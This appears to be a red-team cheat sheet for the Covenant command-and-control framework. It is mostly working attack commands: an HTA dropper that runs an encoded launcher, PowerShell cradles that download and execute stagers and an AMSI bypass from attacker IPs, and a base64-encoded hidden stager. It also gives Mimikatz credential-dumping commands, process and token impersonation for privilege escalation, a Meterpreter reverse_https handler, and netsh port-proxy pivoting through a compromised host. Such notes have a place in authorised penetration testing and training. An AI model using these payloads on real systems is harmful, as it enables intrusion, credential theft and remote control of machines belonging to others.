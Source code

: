 ## Covenant C2 Framework
- https://github.com/cobbr/Covenant

### Installation
- https://github.com/cobbr/Covenant/wiki/Installation-And-Startup

#### Rastamouse version
```
wget -q https://packages.microsoft.com/config/ubuntu/19.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt -y update
sudo apt -y install apt-transport-https
sudo apt -y update
sudo apt -y install dotnet-sdk-3.1 dnsutils
rm packages-microsoft-prod.deb

git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant

dotnet build
dotnet run
```

### General
#### Start Covenant
```
/opt/Covenant/Covenant > dotnet run
```

#### Create a listener
- https://github.com/cobbr/Covenant/wiki/Listeners
- Give it a name and ConnectAdress the adress to Connect to

#### Create a launcher (For example PowerShell)
- Select a listener
- Click on Host and create a different url, for example ```\HTTPStager.ps1``` and click on Host!
- Copy the Launcher and Encoded Launcher codes
- If making an executable try both DotNetversions!

#### HTA script
- Use the command in the following HTA file
```
<script language="VBScript">
Function DoStuff()
Dim wsh
Set wsh = CreateObject("Wscript.Shell") 
wsh.run "[YOUR ENCODED LAUNCHER]" 
Set wsh = Nothing
End Function 
DoStuff
self.close 
</script>
```

#### Go back to listener and upload the HTA file

### Run c# executables on target
- Interact with the grunt.
- Go to tasks, select Assembly, select executable and run!
- Works with DotNet executables

### Escalate to system
- Run the task processlist and look for a process running as ```NT AUTHORITY\SYSTEM```
- Then run ImpersonateProcess ```ImpersonateProcess /processid:"<PROCESS ID>"```
- Then run the Launcher again to spawn another grunt. ```Powershell iex (New-Object Net.WebClient).DownloadString('http://175.12.80.10/Stgr.ps1')```
- Go back to the current context using task ```RevertToSelf```

### Dumping credentials
- From System or High integrity
#### Logon passwords
```
Mimikatz sekurlsa::logonpasswords
```

#### Cached credentials
```
LsaCache
```

#### SAM
```
Mimikatz lsadump::sam
```

#### SafetyKatz
```
SafetyKatz
```

### Impersonate
- For example when there is no RDP open and want to run on other credentials
- Open the grunt, Go to task and select "MakeToken"
- Enter the credentials and type Logontype ```LOGON32_LOGON_INTERACTIVE```

```
MakeToken /username:"<USER>" /domain:"<DOMAIN>" /password:"<PASSWORD>" /logontype:"LOGON32_LOGON_INTERACTIVE"
```

### Import scripts
- Interact with the grunt.
- Go to tasks, select PowerShellImport and select the powershell script

### Runas command
```
ShellRunAs /shellcommand:"whoami" /username:"<USERNAME>" /domain:"<DOMAIN>" /password:"<PASSWORD>"
```


#### Runas new shell example
```
ShellRunAs /shellcommand:"powershell -Sta -Nop -Window Hidden -Command \"iex (New-Object Net.WebClient).DownloadString('http://10.10.15.16:8080/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://10.10.15.16/HTTPStager.ps1')\"" /username:"<USERNAME>" /domain:"<DOMAIN>" /password:"<PASSWORD>"
```

### Session passing
#### Covenant --> Meterpreter
```
use exploit/multi/handler
setg payload windows/x64/meterpreter/reverse_https
setg lhost <IP>
setg lport <PORT>
setg exitfunc thread
setg exitonsession false
run -j

# Generate payload
use payload windows/x64/meterpreter/reverse_https
generate -f raw -o /tmp/sc.bin
```
- Go to covenant, select grun --> task --> Shellcode and choose the file

### Covenant pivoting Example
- **Got a shell but it didn't work? Just here for noting it down and looking at it later!**
- If need to pivot over a HOP but got a restricted amount of allowed ports. Example following setup:
  - Hop ip = 10.10.121.108 and got comprimised
  - Allowed ports 443, 8080 and 80.
  - Normal covenant running on port 80, 443 is used for chisel, 8080 for webserver.
  - Attacker IP = 10.10.15.16

### Steps
- Setup a new listener in Covenant, on port 8090 Set the 10.10.121.108 as ConnectAddresses and CONNECTPort to 8090.
- Create a PowerShell payload with the new listener and download the file, host this file on the webserver on 8080.
- Configure firewall rules

```
powershell netsh interface portproxy add v4tov4 listenaddress=10.10.121.108 listenport=8080 connectaddress=10.10.15.16 connectport=8080 protocol=tcp
powershell netsh interface portproxy add v4tov4 listenaddress=10.10.121.108 listenport=8090 connectaddress=10.10.15.16 connectport=80 protocol=tcp

# Optional if restricted access to the ports even!
powershell netsh advfirewall firewall add rule name="Allow from 10.10.122.15" dir=in action=allow protocol=ANY remoteip=10.10.122.15
```

- Execute shell example:
```
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.121.108:8080/amsi.txt")); IEX ((new-object net.webclient).downloadstring("http://10.10.121.108:8080/OttoHTTP.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip

powershell.exe -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMAA4ADoAOAAwADgAMAAvAGEAbQBzAGkALgB0AHgAdAAiACkAKQA7ACAASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMAA4ADoAOAAwADgAMAAvAE8AdAB0AG8ASABUAFQAUAAuAHAAcwAxACIAKQApAA==
```
